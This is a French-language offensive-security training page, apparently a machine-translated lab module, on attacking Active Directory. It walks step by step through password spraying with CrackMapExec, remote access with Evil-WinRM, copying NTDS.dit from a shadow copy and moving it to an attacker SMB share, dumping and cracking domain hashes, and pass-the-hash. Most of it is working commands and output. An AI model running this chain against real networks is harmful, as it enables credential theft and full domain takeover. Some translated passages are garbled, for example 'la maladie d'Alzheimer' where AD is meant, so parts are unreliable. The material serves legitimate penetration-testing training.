

# Attaquer Active Directory et NTDS

Active Directory (AD) est un service d'annuaire commun et essentiel dans les réseaux d'entreprise modernes. AD est quelque chose que nous rencontrerons à plusieurs reprises, nous devons donc nous familiariser avec les différentes méthodes que nous pouvons utiliser pour attaquer et défendre ces environnements AD. Il est prudent de conclure que si l'organisation utilise Windows, alors AD est utilisé pour gérer ces systèmes Windows. Attaquer AD est un sujet tellement vaste et important que nous avons plusieurs modules couvrant AD.

Dans cette section, nous nous concentrerons principalement sur la façon dont nous pouvons extraire les informations d'identification en utilisant une attaque par dictionnaire contre les comptes AD et en vidant les hachages du fichier NTDS.dit.

Comme beaucoup d'attaques que nous avons couvertes jusqu'à présent, notre cible doit être joignable sur le réseau. Cela signifie qu'il est fort probable que nous ayons besoin d'avoir un pied établi sur le réseau interne auquel la cible est connectée. Cela dit, il existe des situations où une organisation peut utiliser la redirection de port pour transférer le protocole de bureau à distance (3389) ou d'autres protocoles utilisés pour l'accès à distance sur son routeur périphérique vers un système sur son réseau interne. Sachez que la plupart des méthodes abordées dans ce module simulent les étapes après un compromis initial et qu'un pied est établi sur un réseau interne. Avant de nous familiariser avec les méthodes d'attaque, considérons le processus d'authentification une fois qu'un système Windows a été joint au domaine. Cette approche nous aidera à mieux comprendre l'importance d'Active Directory et les attaques par mot de passe auxquelles il peut être sensible.



Une fois qu'un système Windows est joint à un domaine, il ne référencera plus par défaut la base de données SAM pour valider les demandes de connexion. Ce système joint au domaine enverra désormais toutes les demandes d'authentification à valider par le contrôleur de domaine avant d'autoriser un utilisateur à se connecter. Cela ne signifie pas que la base de données SAM ne peut plus être utilisée. Quelqu'un qui cherche à se connecter à l'aide d'un compte local dans la base de données SAM peut toujours le faire en spécifiant le nom d'hôte de l'appareil précédé du nom d'utilisateur (exemple : WS01/nom de l'utilisateur) ou avec un accès direct à l'appareil puis en tapant ./ sur l'interface utilisateur de connexion dans le champ Nom d'utilisateur. Cela mérite d'être pris en considération car nous devons être conscients des composants du système qui sont touchés par les attaques que nous effectuons. Cela peut également nous donner des voies d'attaque supplémentaires à prendre en compte lorsque nous ciblons les systèmes d'exploitation de bureau Windows ou les systèmes d'exploitation de serveur Windows avec un accès physique direct ou sur un réseau. Gardez à l'esprit que nous pouvons également étudier les attaques NTDS en gardant une trace de cette technique.

## Dictionnaire Attaques contre les comptes AD à l'aide de CrackMapExec
Gardez à l'esprit qu'une attaque par dictionnaire utilise essentiellement la puissance d'un ordinateur pour deviner un nom d'utilisateur et/ou un mot de passe à l'aide d'une liste personnalisée de noms d'utilisateur et de mots de passe potentiels. Il peut être assez bruyant (facile à détecter) de mener ces attaques sur un réseau car elles peuvent générer beaucoup de trafic réseau et d'alertes sur le système cible et éventuellement être refusées en raison des restrictions de tentative de connexion qui peuvent être appliquées via l'utilisation de la stratégie de groupe.

Lorsque nous nous trouvons dans un scénario où une attaque par dictionnaire est une prochaine étape viable, nous pouvons bénéficier d'essayer d'adapter autant que possible notre attaque. Dans ce cas, nous pouvons considérer l'organisation avec laquelle nous travaillons pour effectuer l'engagement et utiliser des recherches sur divers sites Web de médias sociaux et rechercher un répertoire des employés sur le site Web de l'entreprise. Cela peut nous permettre d'obtenir les noms des employés qui travaillent dans l'organisation. L'une des premières choses qu'un nouvel employé obtiendra est un nom d'utilisateur. De nombreuses organisations suivent une convention de dénomination lors de la création des noms d'utilisateur des employés. Voici quelques conventions courantes à prendre en compte:

| Username Convention | Practical Example for Jane Jill Doe |
| --- | --- |
| `firstinitiallastname` | jdoe |
| `firstinitialmiddleinitiallastname` | jjdoe |
| `firstnamelastname` | janedoe |
| `firstname.lastname` | jane.doe |
| `lastname.firstname` | doe.jane |
| `nickname` | doedoehacksstuff

Souvent, la structure d'une adresse e-mail nous donnera le nom d'utilisateur de l'employé (structure : nom d'utilisateur@domaine). Par exemple, à partir de l'adresse e-mail jdoe@inlanefreight.com, nous voyons que jdoe est le nom d'utilisateur.

```
Un conseil de MrB3n : Nous pouvons souvent trouver la structure des e-mails en recherchant le nom de domaine sur Google, c'est-à-dire "@inlanefreight.com" et obtenir des e-mails valides. À partir de là, nous pouvons utiliser un script pour gratter divers sites de médias sociaux et mélanger des noms d'utilisateur valides potentiels. Certaines organisations essaient d'obscurcir leurs noms d'utilisateur pour empêcher la pulvérisation, de sorte qu'elles peuvent aliaser leur nom d'utilisateur comme a907 (ou quelque chose de similaire) vers joe.smith. De cette façon, les e-mails peuvent passer, mais le nom d'utilisateur interne réel n'est pas divulgué, ce qui rend la pulvérisation du mot de passe plus difficile. Parfois, vous pouvez utiliser google dorks pour rechercher "inlanefreight.com filetype:pdf" et trouver des noms d'utilisateur valides dans les propriétés PDF s'ils ont été générés à l'aide d'un éditeur graphique. À partir de là, vous pourrez peut-être discerner la structure du nom d'utilisateur et éventuellement écrire un petit script pour créer de nombreuses combinaisons possibles, puis pulvériser pour voir si certaines reviennent valides.
```

## Création d'une liste personnalisée de noms d'utilisateur
Disons que nous avons fait nos recherches et rassemblé une liste de noms basée sur des informations accessibles au public. Nous garderons la liste relativement courte pour les besoins de cette leçon, car les organisations peuvent avoir un très grand nombre d'employés. Exemple de liste de noms :
+ Ben Williamson
+ Bob Burgerstien
+ Jim Stevenson
+ Jill Johnson
+ Jane Doe

Nous pouvons créer une liste personnalisée sur notre hôte d'attaque en utilisant les noms ci-dessus. Nous pouvons utiliser un éditeur de texte en ligne de commande comme Vim ou un éditeur de texte graphique pour créer notre liste. Notre liste peut ressembler à ceci :
```
dsgsec@htb[/htb]$ cat usernames.txt 
bwilliamson
benwilliamson
ben.willamson
willamson.ben
bburgerstien
bobburgerstien
bob.burgerstien
burgerstien.bob
jstevenson
jimstevenson
jim.stevenson
stevenson.jim
```

Bien sûr, ceci n'est qu'un exemple et n'inclut pas tous les noms, mais notez comment nous pouvons inclure une convention de dénomination différente pour chaque nom si nous ne connaissons pas déjà la convention de dénomination utilisée par l'organisation cible.

Nous pouvons créer manuellement notre ou nos listes ou utiliser un générateur de liste automatisé tel que l'outil basé sur Ruby Username Anarchy pour convertir une liste de vrais noms en formats de nom d'utilisateur courants. Une fois que l'outil a été cloné sur notre hôte d'attaque local à l'aide de Git, nous pouvons l'exécuter sur une liste de noms réels, comme indiqué dans l'exemple de sortie ci-dessous :

```
dsgsec@htb[/htb]$ ./username-anarchy -i /home/ltnbob/names.txt 

ben
benwilliamson
ben.williamson
benwilli
benwill
benw
b.williamson
bwilliamson
wben
w.ben
williamsonb
williamson
williamson.b
williamson.ben
bw
bob
bobburgerstien
bob.burgerstien
bobburge
bobburg
bobb
b.burgerstien
bburgerstien
bbob
b.bob
burgerstienb
burgerstien
burgerstien.b
burgerstien.bob
bb
jim
jimstevenson
jim.stevenson
jimsteve
jimstev
jims
j.stevenson
jstevenson
sjim
s.jim
stevensonj
stevenson
stevenson.j
stevenson.jim
js
jill
jilljohnson
jill.johnson
jilljohn
jillj
j.johnson
jjohnson
jjill
j.jill
johnsonj
johnson
johnson.j
johnson.jill
jj
jane
janedoe
jane.doe
janed
j.doe
jdoe
djane
d.jane
doej
doe
doe.j
doe.jane
jd
```

L'utilisation d'outils automatisés peut nous faire gagner du temps lors de la création de listes. Néanmoins, nous gagnerons à passer autant de temps que possible à essayer de découvrir la convention de dénomination qu'une organisation utilise avec les noms d'utilisateur, car cela réduira la nécessité pour nous de deviner la convention de dénomination.

Il est idéal pour limiter autant que possible le besoin de deviner lors de la conduite d'attaques par mot de passe.

## Lancer l'attaque avec CrackMapExec
Une fois que nous avons préparé notre ou nos listes ou découvert la convention de dénomination et certains noms d'employés, nous pouvons lancer notre attaque contre le contrôleur de domaine cible à l'aide d'un outil tel que CrackMapExec. Nous pouvons l'utiliser conjointement avec le protocole SMB pour envoyer des demandes de connexion au contrôleur de domaine cible. Voici la commande pour le faire :
```
dsgsec@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! 
```

Dans cet exemple, CrackMapExec utilise SMB pour tenter de se connecter en tant qu'utilisateur (-u) bwilliamson en utilisant une liste de mots de passe (-p) contenant une liste de mots de passe couramment utilisés (/usr/share/wordlists/fasttrack.txt). Si les administrateurs ont configuré une politique de verrouillage de compte, cette attaque pourrait verrouiller le compte que nous ciblons. Au moment d'écrire ces lignes (janvier 2022), une politique de verrouillage de compte n'est pas appliquée par défaut avec les politiques de groupe par défaut qui s'appliquent à un domaine Windows, ce qui signifie qu'il est possible que nous rencontrions des environnements vulnérables à cette attaque exacte que nous pratiquons. 

<hr>

# Capturer NTDS.dit
NT Directory Services (NTDS) est le service d'annuaire utilisé avec AD pour rechercher et organiser les ressources réseau. Rappelez-vous que le fichier NTDS.dit est stocké dans %systemroot$/ntds sur les contrôleurs de domaine d'une forêt. Le .dit représente l'arborescence des informations de répertoire. Il s'agit du fichier de base de données principal associé à AD et stocke tous les noms d'utilisateur de domaine, les hachages de mot de passe et d'autres informations de schéma critiques. Si ce fichier peut être capturé, nous pourrions potentiellement compromettre chaque compte sur le domaine similaire à la technique que nous avons couverte dans la section Attaque SAM de ce module. Pendant que nous pratiquons cette technique, réfléchissez à l'importance de protéger la maladie d'Alzheimer et réfléchissez à quelques moyens d'empêcher cette attaque de se produire.

## Connexion à un DC avec Evil-WinRM
Nous pouvons nous connecter à un DC cible en utilisant les informations d'identification que nous avons capturées.
```
dsgsec@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Evil-WinRM se connecte à une cible à l'aide du service de gestion à distance de Windows combiné au protocole PowerShell Remoting pour établir une session PowerShell avec la cible.

## Vérification de l'appartenance à un groupe local
Une fois connecté, nous pouvons vérifier quels sont les privilèges de bwilliamson. Nous pouvons commencer par examiner l'appartenance au groupe local à l'aide de la commande :
```
*Evil-WinRM* PS C:\> net localgroup

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.
```

Nous cherchons à voir si le compte a des droits d'administrateur local. Pour faire une copie du fichier NTDS.dit, nous avons besoin des droits d'administrateur local (groupe Administrateurs) ou d'administrateur de domaine (groupe Administrateurs de domaine) (ou équivalent). Nous voudrons également vérifier quels privilèges de domaine nous avons.
```
*Evil-WinRM* PS C:\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

## Création d'une copie C :
Nous pouvons utiliser vssadmin pour créer un volume Shadow Copy (VSS) du lecteur C: ou de tout volume choisi par l'administrateur lors de l'installation initiale d'AD. Il est très probable que NTDS soit stocké sur C: car c'est l'emplacement par défaut sélectionné lors de l'installation, mais il est possible de modifier l'emplacement. Nous utilisons VSS pour cela car il est conçu pour faire des copies de volumes qui peuvent être lus et écrits activement sans avoir besoin d'arrêter une application ou un système particulier. VSS est utilisé par de nombreux logiciels de sauvegarde et de reprise après sinistre pour effectuer des opérations.
```
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

## Copie de NTDS.dit à partir du VSS
Nous pouvons ensuite copier le fichier NTDS.dit du cliché instantané de volume de C: vers un autre emplacement sur le lecteur pour préparer le déplacement de NTDS.dit vers notre hôte d'attaque.
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```
Avant de copier NTDS.dit sur notre hôte d'attaque, nous pouvons utiliser la technique que nous avons apprise précédemment pour créer un partage SMB sur notre hôte d'attaque. N'hésitez pas à revenir à la section Attaquer le SAM pour revoir cette méthode si nécessaire.

## Transfert de NTDS.dit vers l'hôte d'attaque
Désormais, cmd.exe /c move peut être utilisé pour déplacer le fichier du DC cible vers le partage sur notre hôte d'attaque.
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.	
```
## Une méthode plus rapide : utiliser cme pour capturer NTDS.dit
Alternativement, nous pouvons bénéficier de l'utilisation de CrackMapExec pour accomplir les mêmes étapes indiquées ci-dessus, le tout avec une seule commande. Cette commande nous permet d'utiliser VSS pour capturer et vider rapidement le contenu du fichier NTDS.dit de manière pratique dans notre session de terminal.
```
dsgsec@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds

SMB         10.129.201.57    445     DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57    445     DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
SMB         10.129.201.57    445     DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.201.57    445     DC01           Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.201.57    445     DC01           DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
SMB         10.129.201.57    445     DC01           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
SMB         10.129.201.57    445     DC01           WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
SMB         10.129.201.57    445     DC01           WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
SMB         10.129.201.57    445     DC01           WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
SMB         10.129.201.57    445     DC01           WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
SMB         10.129.201.57    445     DC01           WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
SMB         10.129.201.57    445     DC01           Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
SMB         10.129.201.57    445     DC01           Administrator:des-cbc-md5:618c1c5ef780cde3
SMB         10.129.201.57    445     DC01           DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9
SMB         10.129.201.57    445     DC01           DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78d
SMB         10.129.201.57    445     DC01           DC01$:des-cbc-md5:a2852362e50eae92
SMB         10.129.201.57    445     DC01           krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
SMB         10.129.201.57    445     DC01           krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
SMB         10.129.201.57    445     DC01           krbtgt:des-cbc-md5:9bd5017fdcea8fae
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
     [+] Dumped 61 NTDS hashes to /home/bob/.cme/logs/DC01_10.10.15.30_2022-01-19_133529.ntds of which 15 were added to the database
```
## Craquage des hachages et obtention d'informations d'identification
Nous pouvons procéder à la création d'un fichier texte contenant tous les hachages NT, ou nous pouvons copier et coller individuellement un hachage spécifique dans une session de terminal et utiliser Hashcat pour tenter de déchiffrer le hachage et un mot de passe en texte clair.

```
dsgsec@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

Dans de nombreuses techniques que nous avons couvertes jusqu'à présent, nous avons réussi à casser les hachages que nous avons obtenus.

Que se passe-t-il si nous ne réussissons pas à casser un hash ?

## Considérations sur le passage du hachage
Nous pouvons toujours utiliser des hachages pour tenter de nous authentifier auprès d'un système utilisant un type d'attaque appelé Pass-the-Hash (PtH). Une attaque PtH tire parti du protocole d'authentification NTLM pour authentifier un utilisateur à l'aide d'un hachage de mot de passe. Au lieu de nom d'utilisateur : mot de passe en texte clair comme format de connexion, nous pouvons utiliser à la place nom d'utilisateur : hachage de mot de passe. Voici un exemple de la façon dont cela fonctionnerait :

### Pass-the-Hash avec l'exemple Evil-WinRM
```
dsgsec@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

Nous pouvons tenter d'utiliser cette attaque lorsqu'il est nécessaire de se déplacer latéralement sur un réseau après la compromission initiale d'une cible. Plus d'informations sur PtH seront couvertes dans le module AD Enumeration and Attacks.